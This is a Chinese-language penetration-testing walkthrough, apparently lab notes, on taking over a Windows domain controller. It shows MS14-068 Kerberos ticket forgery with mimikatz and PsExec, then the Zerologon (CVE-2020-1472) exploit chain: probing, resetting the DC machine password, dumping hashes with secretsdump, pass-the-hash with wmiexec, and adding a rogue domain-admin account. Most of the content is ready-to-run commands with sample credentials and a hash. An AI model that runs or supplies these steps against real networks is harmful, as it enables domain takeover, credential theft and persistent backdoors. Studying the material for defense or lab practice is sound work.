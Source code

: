 **域控也可以添加域管理员账号**，并且成功登陆其他机子<br /> <br />MS14-068编号CVE-2014-6324，补丁为3011780、打成功后具备域管理员权限<br />注入票据时，机器不能是03或xp，因为mimikatz不支持这两个机器注入<br />步骤1、<br />需要用MS14-068.exe<br />MS14-068.exe -u af@aufeng.com -p Ou123456 -s S-1-5-21-2189311154-2766837956-1982445477-1110 -d 192.168.10.171  <br />#MS14-068.exe -u 域用户@aufeng.com -p 域用户af密码 -s 域用户af的SID -d 域控ip<br />然后在ms14.exe的目录下会生成票据<br />步骤2、<br />用mimikatz导入票据<br />mimikatz#kerberos::ptc C:\Users\AF.AUFENG\Desktop\MS14-068\TGT_af@aufeng.com.ccache<br />步骤3、<br />需要把域控共享的c盘移植到其他盘(不存在的盘) ，然后建立成一个会话<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394476067-56d57304-89fd-46bf-9c8f-3c91fd9cc060.png#height=368&id=X7ldu&originHeight=491&originWidth=609&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=457)<br />这时候域成员就会挂载一个域控的盘<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394476347-68bc7b73-d04d-4931-85a2-86bbfb178afb.png#height=307&id=SzQ8v&originHeight=409&originWidth=514&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=386)<br /> 
<a name="D90Hu"></a>
### 使用psexec拿下域控dos命令框
Psexec.exe -accepteula \\WIN-RQP1EWJL1WV.aufeng.com -s cmd.exe （只能是机器名psexec，ip不成功，Psexec有可能用32位的才能成功）<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394476604-b6fe4c34-9d42-45af-87a6-482001555762.png#height=185&id=Jw3sM&originHeight=328&originWidth=646&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=365)
<a name="2u5fr"></a>
### 利用会话，使用定时计划
思路与横向渗透一致，但是必须是域控的机器名，ip是无法成功的，net time /domain看机器名<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394476811-98df5bb4-a102-4267-8ed0-ebe5a99e16ae.png#height=119&id=gSxYi&originHeight=184&originWidth=640&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=415)<br /> 
<a name="35Lj8"></a>
## Netlogon 特权提升漏洞复现（CVE-2020-1472）

[https://sec.nmask.cn/article_content?a_id=79e344debce9e8a3603ca5ff2c9ad018](https://sec.nmask.cn/article_content?a_id=79e344debce9e8a3603ca5ff2c9ad018)<br />进入内网后直接扫88端口，和445端口，445端口可以用来识别工作组或者域环境，88端口一般都是域控才会开的端口，因为是krb协议。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826216145-258a9467-47e9-4a0a-a692-29a6be24080b.png#height=211&id=pTW90&originHeight=421&originWidth=1021&originalType=binary&ratio=1&rotation=0&showTitle=false&size=331587&status=done&style=none&title=&width=510.5)

先探测有无漏洞<br /> python zerologon_tester.py owa 1.1.1.20<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826245812-9e89cc18-17ae-4773-a578-c7b12148a3b1.png#height=100&id=E70Iq&originHeight=200&originWidth=1000&originalType=binary&ratio=1&rotation=0&showTitle=false&size=116793&status=done&style=none&title=&width=500)<br />存在漏洞之后再把密码重置<br />python set_empty_pw.py 机器名 ip<br /> <br />密码重置后利用脚本看重置后的hash<br />python secretsdump.py -no-pass -just-dc god.org/owa$@192.168.52.138<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394477086-7d3ee11c-998a-4cdb-9307-256dce0303c6.png#height=236&id=TjryU&originHeight=503&originWidth=801&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=376)

secretsdump.py是impacket包中的python脚本<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614781114334-b94bbfd6-10b0-4257-ac3a-a9d1d066e71e.png#height=211&id=lGlvT&originHeight=421&originWidth=807&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31097&status=done&style=none&title=&width=403.5)<br />并利用重置后的hash横向登入域<br />python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:81be2f80d568100549beac645d6a7141 god.org/administrator@192.168.52.138

然后直接添加一波域管账户密码 <br />net user aufeng root@123 /add /domain<br />net group "domain admins" aufeng /add /domain
